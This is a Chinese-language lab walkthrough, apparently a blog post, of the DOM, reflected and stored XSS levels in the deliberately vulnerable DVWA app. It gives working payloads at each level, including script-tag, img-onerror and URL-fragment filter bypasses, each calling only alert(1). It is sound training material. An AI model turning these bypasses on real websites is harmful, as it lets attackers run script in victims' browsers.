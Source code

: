 ```
		default:
			header ("location: ?default=English");
			exit;
	}
}

```
直接请求参数限制死了只能是这几种语言，通过锚点来越过
```
http://192.168.20.48/DVWA/vulnerabilities/xss_d/?default=English#<script>alert(1)</script>
```
#### impossible
查看index.php代码
```
# For the impossible level, don't decode the querystring
$decodeURI = "decodeURI";
if ($vulnerabilityFile == 'impossible.php') {
	$decodeURI = "";
}

```
不转码html，直接就没辙了

### XSS（Reflected）（反射型跨站脚本）
反射型XXS是一种非持久性的攻击，它指的是恶意攻击者往Web页面里插入恶意代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意攻击用户的目的。

#### Low
文本框输入：
```
<script>alert('xss')</script>
```
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/e5a5de0d428404f1f1fc7e0b15ca26fa.png)

```
或者参数上：http://192.168.20.48/DVWA/vulnerabilities/xss_r/?name=<script>alert('xss')</script>
```

#### Medium
同xssdom，也是过滤掉了script标签
```
或者参数上：http://192.168.20.48/DVWA/vulnerabilities/xss_r/?name=<img src="a" onerror="alert(1)"></img>
```

#### Hign
同xssdom,也是未判断锚点

```
http://192.168.20.48/DVWA/vulnerabilities/xss_r/?name=hello#<img src=x onerror="alert(1)">
```

#### impossible
```
$name = htmlspecialchars( $_GET[ 'name' ] );
```
同xssdom，去除了所有的html标签，无解
### XSS（Stored）（存储型跨站脚本）
攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码,比如某些新增表单里，某些字段可以写入xss标签。
#### Low
查看代码获取名字和message字段插入了guestbook 表，页面显示这个表的所有数据
```
$message = trim( $_POST[ 'mtxMessage' ] );
	$name    = trim( $_POST[ 'txtName' ] );

	// Sanitize message input
	$message = stripslashes( $message );
```